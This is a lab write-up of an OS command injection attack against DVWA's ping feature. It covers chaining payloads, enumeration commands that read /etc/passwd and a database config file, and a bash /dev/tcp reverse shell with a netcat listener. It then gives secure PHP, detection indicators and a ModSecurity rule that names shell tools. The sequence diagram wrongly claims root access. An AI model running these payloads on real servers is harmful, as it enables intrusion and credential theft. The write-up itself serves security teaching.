

# Attack 4 -- Command Injection

**DVWA Module:** Command Injection  
**Security Level:** Low  
**URL:** `http://localhost/dvwa/vulnerabilities/exec/`  
**MITRE ATT&CK:** T1059.004 -- Command and Scripting Interpreter: Unix Shell  
**CVSS v3.1 Score:** 9.8 (Critical)

---

## Objective

Exploit unsanitised input in a network diagnostic feature (ping) to inject arbitrary OS commands and achieve Remote Code Execution on the server, demonstrating the full command injection chain.

---

## Lab Environment



---

## Step 1 -- Understand the Feature

Navigate to DVWA --> Command Injection.

| Evidence | Screenshot | Description |
|----------|----------- |-------------|
| Ping Output | [command-injection-ping.png](../screenshots/command-injection-ping.png) | Ping results with `uid=33www-datagid=33www-data` injected |

The page presents:
```
Vulnerability: Command Injection
Ping a device
Enter an IP address: [          ] [Submit]
```

Entering `127.0.0.1` executes a ping and returns:

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.042 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.058 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.057 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.067 ms

--- 127.0.0.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3061ms
rtt min/avg/max/mdev = 0.042/0.056/0.067/0.009 ms
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Note the `uid=33www-datagid=33www-data` line at the bottom -- this is injected output from the `id` command appended to the ping result. The vulnerable PHP code concatenates user input directly into a shell command.

---

## Step 2 -- Inject Additional Commands

Using shell command chaining operators:

### Semicolon (;) -- run second command regardless
```
127.0.0.1; whoami
```nOutput appended: `www-data`

### Double ampersand (&&) -- run second command if first succeeds
```
127.0.0.1 && id
```
Output: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`

### Pipe (|) -- redirect output
```
127.0.0.1 | cat /etc/passwd
```
Output: Full contents of `/etc/passwd`

---

## Step 3 -- Information Gathering

### System Enumeration Commands

| Command | Purpose |
|---------|---------|
| `127.0.0.1; whoami` | Current user |
| `127.0.0.1; id` | User/group IDs |
| `127.0.0.1; uname -a` | Kernel version |
| `127.0.0.1; cat /etc/passwd` | System users |
| `127.0.0.1; ls /var/www/html` | Web directory contents |
| `127.0.0.1; cat /var/www/html/dvwa/config/config.inc.php` | Database credentials |

---

## Step 4 -- Reverse Shell

Start a listener on Kali:
```bash
nc -lvnp 4444
```

In the DVWA Command Injection field:
```
127.0.0.1; bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
```

This redirects an interactive bash shell over TCP back to the attacker, providing full interactive access to the server.

### Full Attack Chain

```mermaid
sequenceDiagram
    actor Attacker
    participant DVWA as DVWA Ping Feature
    participant Shell as OS Shell
    participant Kali as Attacker Listener<br/>10.0.3.15:4444
    
    Attacker->>DVWA: Input: 127.0.0.1; whoami
    DVWA->>Shell: shell_exec("ping -c 4 127.0.0.1; whoami")
    Shell-->>DVWA: www-data
    DVWA-->>Attacker: Ping + www-data
    
    Attacker->>DVWA: Input: 127.0.0.1; id
    DVWA->>Shell: shell_exec("ping -c 4 127.0.0.1; id")
    Shell-->>DVWA: uid=33www-datagid=33www-data
    DVWA-->>Attacker: Ping + uid/gid
    
    Attacker->>DVWA: Input: 127.0.0.1; bash -i >& /dev/tcp/10.0.3.15/4444 0>&1
    DVWA->>Shell: shell_exec("ping ... ; reverse shell cmd")
    Shell->>Kali: TCP connection on port 4444
    Kali-->>Shell: Interactive bash shell
    Kali->>Attacker: Root shell access
```

---

## Why This Works

### Vulnerable Code Pattern
```php
// UNSAFE: Direct string concatenation
$cmd = shell_exec('ping -c 4 ' . $_GET['ip']);
echo $cmd;
```

Because the `ip` parameter is concatenated directly into the shell command string, any shell metacharacter (`;`, `&&`, `||`, `|`) breaks out of the ping command and injects a new one.

### Secure Code
```php
// SAFE: Validate and escape input
$ip = $_GET['ip'];

// Validate IP address format
if (!filter_var($ip, FILTER_VALIDATE_IP)) {
    die('Invalid IP address');
}

// Escape shell arguments
$safe_ip = escapeshellarg($ip);
$cmd = shell_exec('ping -c 4 ' . $safe_ip);
```

---

## Finding Summary

| Field | Detail |
|-------|--------|
| **Vulnerability** | OS Command Injection |
| **Location** | IP address field (`ip` GET parameter) on `/vulnerabilities/exec/` |
| **Root Cause** | Direct string concatenation into `shell_exec()` without sanitisation |
| **Injection Operators** | `;`, `&&`, `\|`, `||`, `$()` |
| **Impact** | Remote Code Execution as `www-data`; full file system access; reverse shell |
| **CVSS v3.1** | 9.8 (Critical) |
| **MITRE ATT&CK** | T1059.004 -- Command and Scripting Interpreter: Unix Shell |

---

## Detection

### SIEM/Monitoring Indicators
- HTTP parameters containing `;`, `&&`, `||`, `|` alongside IP-like strings
- `shell_exec`, `system`, `exec`, `passthru`, `proc_open` calls in web application logs
- Unexpected child processes spawned by Apache/PHP (e.g. `bash`, `nc`, `python3`)
- Outbound TCP connections from web server to unusual ports (e.g. 4444, 1337)
- Access to sensitive files (`/etc/passwd`, config files) via web process
- Unusually long command execution times for ping requests

### WAF Rules
```
# Example ModSecurity rule
SecRule REQUEST_ARGS "@rx (?i)(;|&&|\|\||\|).*(whoami|id|cat|bash|nc|python)"
    "id:1003,deny,status:403,msg:'Command Injection Detected'"
```
